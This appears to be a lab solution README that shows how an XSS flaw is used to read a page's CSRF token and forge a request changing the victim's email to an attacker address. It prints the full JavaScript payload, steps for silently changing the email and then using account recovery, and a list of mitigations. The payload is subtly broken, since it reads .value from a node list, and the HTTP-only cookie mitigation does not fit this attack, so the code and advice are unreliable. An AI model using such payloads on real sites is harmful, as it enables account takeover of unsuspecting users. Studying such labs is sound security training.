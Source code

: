 # Lab: Exploiting XSS to Bypass CSRF Defenses

This README documents the solution and details for exploiting a Cross-Site Scripting (XSS) vulnerability to bypass Cross-Site Request Forgery (CSRF) protections through a malicious script that changes the victim’s email address.

---

## Lab Overview

- The lab features an XSS vulnerability that can be exploited to perform unauthorized actions on behalf of the victim.
- The application employs CSRF defenses such as tokens to protect sensitive actions.
- Despite CSRF protection, XSS can be used to read the CSRF token from the page and send forged requests.

---

## Exploitation Payload

```
<script>
window.addEventListener('DOMContentLoaded', function() {
var token = document.getElementsByName('csrf').value;
var data = new FormData();
data.append('csrf', token);
data.append('email', 'evilhacker@gmail.com');
fetch('/my-account/change-email', {
method: 'POST',
mode: 'no-cors',
body: data
});
});
</script>

```


---

## How the Payload Works

1. **DOMContentLoaded Event Listener**  
   The script waits until the page DOM is fully loaded to ensure CSRF token and form elements are accessible.

2. **CSRF Token Extraction**  
   The script fetches the CSRF token from the hidden input field identified by the `name="csrf"` attribute.

3. **Crafting a Forged Request**  
   Using the valid token, a `POST` request is made to the `/my-account/change-email` endpoint to change the victim’s email to `evilhacker@gmail.com`.

4. **Bypassing CSRF Protections**  
   Since the request includes a valid token obtained from the page itself, the CSRF protections are effectively bypassed.

---

## Steps to Exploit

- Inject or trigger the malicious script in the victim’s browser (e.g., via stored or reflected XSS).
- When the victim loads the affected page, the payload executes and silently changes their email without their knowledge.
- The attacker can then use this to initiate account recovery or other attacks.

---

## Mitigation Strategies

- Fix XSS vulnerabilities to prevent script injection.
- Implement HTTP-only flags on cookies to prevent script access.
- Use SameSite cookie attributes to restrict cross-origin requests.
- Consider more robust CSRF protections such as double-submit cookies or custom headers.
- Employ strict Content Security Policy (CSP).

---


